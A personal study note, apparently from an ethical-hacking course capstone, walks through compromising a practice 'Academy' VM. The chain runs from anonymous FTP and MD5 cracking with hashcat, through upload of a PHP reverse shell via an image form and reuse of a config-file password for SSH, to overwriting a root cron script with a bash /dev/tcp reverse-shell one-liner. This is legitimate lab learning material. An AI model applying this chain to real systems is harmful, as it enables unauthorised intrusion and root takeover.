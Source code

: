 ftp port 21:
version vsftpd 3.0.3
allows anonymous login

ssh port 22
version OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)

http port 80
version  Apache httpd 2.4.38 ((Debian))


80 - 192.168.5.5 - 16:50 14/02/2024
Default Webpage - Apache - PHP



![[Pasted image 20240214104859.png]]

- `sudo netdiscover -r 10.0.2.0/24`
- `nmap -T4 -p- -A 10.0.2.152`  
- port 80 open => try to look at http://10.0.2.152
#### FTP
- port 21 open
- There is a file         [[Notes/TCM/ETH/Capstones/Academy/nmap|Look inside nmap scan]]
=>
try to connect as anonymous 
`ftp 10.0.2.152`
`anonymous`
try to get the file -->  `get note.txt`

> [!TIP] This can be intresting:
>- we don't know the file position inside the victim machine
>- HTTP is open =>  always good to check if` http://10.0.2.152/note` exists
>- if exist => we can <span style="color:#00b050">upload</span> a malicious <span style="color:#00b050">file using FTP</span>
>- execute it
	
exit from ftp and `cat note.txt`
![[Pasted image 20240214154532.png]]
- We found a password
- Probably is an hash
- Check what type with tool [[cheat#Hash-identifier|hash-identifier]] 
- `hash-identifier
- `cd73502828457d15655bbd7a63fb0bc8`
- probably is a --> MD5 hash
	- => try to crack hash with [[cheat#hashcat|hashcat]] + [[cheat#Locate|locate]]
	- locate rockyou.txt
	- echo "type here the hash" > hash.txt
	- `hashcat -m 0 Desktop/TCM/ETH/VMe/Academy/hash.txt` `Desktop/TCM/rockyou.txt` 
	- <span style="color:#00b050">We found a password</span> -->  student
	- ![[Pasted image 20240214160424.png]]

Now we have a userid + password 
But we don't know for what it's used
=>
Let's check if it exists a web page where we can enter these credentials
=>
#### Enumerate HTTP
we can use [[cheat#dirb|dirb]] or [[cheat#ffuf|ffuf]]
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ_VARIABLE -u http://10.0.2.152/FUZZ_VARIABLE`
=>
<span style="color:#00b050">we found an "academy" path</span>
![[Pasted image 20240214162425.png]]
- go to `http://10.0.2.152/academy `and try to login with the userid + pass
- <span style="color:#00b050">We can login </span>
- there is a form where you can upload an image
- maybe we can also <span style="color:#00b050">upload</span> other files
- for example a <span style="color:#00b050">reverse shell</span> 
- search -->  for php reverse shell
- [Save this script locally](https://github.com/pentestmonkey/php-reverse-shell)
- change the IP in the script to your ip
- use netcat for listening to the port defined inside the script
	 - nc -nvlp 1234
	 - upload the shell in the form
	 - <span style="color:#00b050">we get a shell</span>
	 - ![[Pasted image 20240214163740.png]]
		    it's not priviliged
	=>
	it's time to privilege escalation
##### Privilege escalation
we'll use [[cheat#linpeas|linpeas]] to search any potential privilege escalation
- follow all the steps inside linpeas
- <span style="color:#00b050">we'll find a password</span> -->  My_V3ryS3cur3_P4ss
	- we can cat the file where the password is stored
	- `cat /var/www/html/academy/includes/config.php`
	- ![[Pasted image 20240214171514.png]]
	- <span style="color:#00b050">we find a user grimmie for the password</span>
- try to connect via shh -->  `ssh grimmie@10.0.2.152`
- <span style="color:#00b050">we enter</span>
- we are not root
	  => we need to become root
	![[Pasted image 20240214171831.png]]

- inside there is a backup.sh
- In some ways we can find that this script is executed every minute
	- if we change it so that it executes a shell 
	     =>
	     we have finished
	=>
	- search on google -->  [bash reverse shell one liner](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
	- we find our bash shell -->  `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- changed the ip to the attacker ip
	- from the attacker machine -->  listen on 8080
							     `nc -nvlp 8080`
	- inside backup.sh delete all and paste --> `bash -i >& /dev/tcp/10.0.2.15/8080 0>&1`
	- Here we are!
	- <span style="color:#00b050">We have root access</span>
	- ![[Pasted image 20240214174016.png]]


> [!INFO] 
>This worked because the backup.sh script is executed by root each minute






